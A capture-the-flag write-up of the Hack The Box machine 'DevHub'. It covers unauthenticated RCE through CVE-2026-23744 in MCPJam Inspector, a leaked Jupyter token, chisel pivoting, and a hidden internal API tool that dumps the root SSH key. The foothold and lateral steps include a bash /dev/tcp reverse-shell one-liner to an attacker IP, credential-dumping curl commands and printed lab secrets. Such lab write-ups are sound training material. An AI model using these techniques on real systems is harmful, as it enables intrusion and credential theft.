# HTB - DevHub

**IP Address:** `10.129.8.143`  
**OS:** `Linux / Ubuntu`  
**Difficulty:** `Medium`  
**Tags:** #Linux #MCPJam #CVE-2026-23744 #Jupyter #OPSMCP #Chisel

---
## Synopsis

DevHub is a Medium Linux box exposing nginx on port 80 (vhost `devhub.htb`) and **MCPJam Inspector** on TCP **6274** over plain HTTP. The Inspector is vulnerable to **CVE-2026-23744**, allowing unauthenticated RCE via `POST /api/mcp/connect` and yielding a shell as **`mcp-dev`**. The landing page advertises an internal Jupyter instance on **localhost:8888**; the Jupyter token is visible in process arguments, and after port-forwarding with **chisel** we access JupyterLab as **`analyst`** and capture the user flag. The analyst home directory contains **`~/.opsmcp_key`**, which authenticates to a root-run Flask service (**OPSMCP**) on **127.0.0.1:5000**. A hidden MCP tool **`ops._admin_dump`** with `target=ssh_keys` returns the **root SSH private key**, enabling root login and the root flag.

---
## Skills Required

- TCP/UDP port scanning and service fingerprinting
- Virtual host enumeration and web technology identification
- Basic Linux post-exploitation and localhost service discovery

## Skills Learned

- Exploiting **CVE-2026-23744** (MCPJam Inspector unsafe `serverConfig` spawn)
- Pivoting through **JupyterLab** using a token leaked in `ps aux`
- Port forwarding internal services with **chisel**
- Abusing over-privileged internal APIs (**OPSMCP** hidden tools) for credential/key disclosure

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.8.143
```


---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.8.143 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p22,80,6274 10.129.8.143 -oN targeted
bat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  




**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 22 | SSH | OpenSSH 8.9p1 Ubuntu |
| 80 | HTTP | nginx 1.18.0; redirect/title → `devhub.htb` |
| 6274 | HTTP (MCPJam) | `<title>MCPJam Inspector</title>`; **plain HTTP**, not TLS |

---
## 2. Service Enumeration

### 2.1 DevHub web portal

Add the vhost to `/etc/hosts` and inspect the main site to learn what internal services exist before attacking MCPJam.

```bash
echo '10.129.8.143 devhub.htb' | sudo tee -a /etc/hosts
whatweb http://devhub.htb
curl -s http://devhub.htb | head -80
```



The homepage lists three components: **MCP Inspector** (active, port 6274), **Analytics Dashboard** (Jupyter, localhost:8888), and a Git server in maintenance mode.



---
### 2.2 MCPJam Inspector (port 6274)

Browse the Inspector UI to confirm the product and version, then validate the exposed API used by the public PoC.

```bash
curl -s http://devhub.htb:6274/ | head -20
```



**Observed:** MCPJam Inspector **v1.4.2** on `http://devhub.htb:6274` (HTTP only).

**Vulnerability:** [CVE-2026-23744](https://github.com/suljov/CVE-2026-23744-Remote-Code-Execution-POC) — unsafe handling of `serverConfig` on `POST /api/mcp/connect`.

**Rabbit hole:** The public PoC defaults to `https://TARGET`. Port 6274 speaks **HTTP**; using HTTPS produces `SSL: WRONG_VERSION_NUMBER`. Set `target = "http://devhub.htb:6274"`.

---
## 3. Foothold

### 3.1 CVE-2026-23744 — RCE as `mcp-dev`

Start a listener, point the PoC at **HTTP** port 6274, and execute the exploit to obtain a reverse shell.

```bash
nc -lvnp 4445
python3 exploit.py   # target = "http://devhub.htb:6274"
```



**Recovered context:** shell as **`mcp-dev`** (uid 1001). `/home/analyst` is not readable; user flag is not in `mcp-dev` home.

---
## 4. Privilege Escalation

### 4.1 Lateral movement — Jupyter as `analyst`

From the `mcp-dev` shell, enumerate localhost listeners and process command lines to find internal services referenced on the DevHub landing page.

```bash
ss -tlnp
ps aux | grep -E 'jupyter|8888|analyst'
```



**Jupyter (verified in `ps`):**

```text
/home/analyst/jupyter-env/bin/jupyter-lab --ip=127.0.0.1 --port=8888
  --ServerApp.token=a7f3b2c9d8e1f4a5b6c7d8e9f0a1b2c3d4e5f6a7
```

Forward port 8888 to the attack host with **chisel**, then open JupyterLab in a browser:

```text
http://127.0.0.1:8888/lab?token=a7f3b2c9d8e1f4a5b6c7d8e9f0a1b2c3d4e5f6a7
```




Open **Terminal** in JupyterLab (runs as **`analyst`**):

```bash
whoami
cat /home/analyst/user.txt
```



Optional: catch an **`analyst`** reverse shell on Kali for a stable CLI outside the browser.

```bash
# Kali
nc -lvnp 4446

# Jupyter terminal
bash -c 'bash -i >& /dev/tcp/10.10.15.14/4446 0>&1'
```



🏁 **User flag obtained:** `929f15b5100a947e4592a3b97c38ffd5`

---
### 4.2 OPSMCP — hidden admin tool

With a stable **`analyst`** shell, run initial post-user enumeration to confirm the session and review local context before hunting privesc paths.

```bash
whoami
cat ~/user.txt
hostname
id
ip a
```



While listing the home directory, I found an interesting secret file called **`.opsmcp_key`**. Port **5000** was already visible on `127.0.0.1` during earlier listener checks, and `ps` showed **`/opt/opsmcp/server.py`** running as **root** — the key is likely meant to authenticate to that internal API.

```bash
cat ~/.opsmcp_key
cat /opt/opsmcp/server.py
tail -n +115 /opt/opsmcp/server.py
```

**Recovered:** `X-API-Key: opsmcp_secret_key_4f5a6b7c8d9e0f1a`

The readable source defines **hidden tools** (callable via `POST /tools/call` but omitted from `/tools/list`):

- `ops._admin_dump` — `target`: `ssh_keys` | `passwords` | `tokens` (requires `confirm: true`)
- `ops._debug_mode`



---
### 4.3 Root — SSH key dump via `ops._admin_dump`

Dump the root private key through the API, write PEM newlines correctly with Python, then SSH as root from Kali.

```bash
KEY=$(cat ~/.opsmcp_key)
curl -s -X POST -H "X-API-Key: $KEY" -H "Content-Type: application/json" \
  http://127.0.0.1:5000/tools/call \
  -d '{"name":"ops._admin_dump","arguments":{"target":"ssh_keys","confirm":true}}' \
| python3 -c "import sys,json; open('/tmp/root_id_rsa','w').write(json.load(sys.stdin)['root_private_key'])"
chmod 600 /tmp/root_id_rsa
```



Transfer the key to Kali (e.g. `base64 -w0 /tmp/root_id_rsa`), decode, and login:

```bash
chmod 600 root_id_rsa
ssh -i root_id_rsa root@10.129.8.143
cat /root/root.txt
```

